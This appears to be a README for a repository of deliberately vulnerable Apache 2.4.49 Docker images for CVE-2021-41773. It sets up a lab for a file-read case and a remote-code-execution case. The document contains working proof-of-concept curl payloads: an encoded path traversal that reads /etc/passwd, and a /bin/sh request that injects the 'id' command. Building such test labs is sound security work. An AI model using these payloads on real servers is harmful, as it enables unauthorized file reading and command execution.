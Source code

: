 # Vulnerable docker images for CVE-2021-41773 Apache path traversal

This vulnerabiltiy *only* applies to version 2.4.49 that have specific non-default configs. In certain situations this can result in either file read or code execution.

## Vulnerable file read config

Containers can be pulled directly from Docker Hub using

```podman pull quay.io/vuln/cve-2021-41773:no-cgi```

and executed using

```podman run -dit -p 8080:8080 quay.io/vuln/cve-2021-41773:no-cgi```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```podman logs <container-id>```

### PoC for file read

```curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd```

## Vulnerable RCE config

Containers can be pulled directly from Docker Hub using

```podman pull quay.io/vuln/cve-2021-41773:with-cgi```

and executed using

```podman run -dit -p 8080:8080 quay.io/vuln/cve-2021-41773:with-cgi```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```podman logs <container-id>```

### PoC for RCE

```curl 'localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'```

## Build custom Container containers

Modify and build your own versions using the Dockerfile and template httpd.conf files in the subdirectories

- Use ./no-cgi for the config vulnerable to file read
- Use ./with-cgi for the config vulnerable to code execution
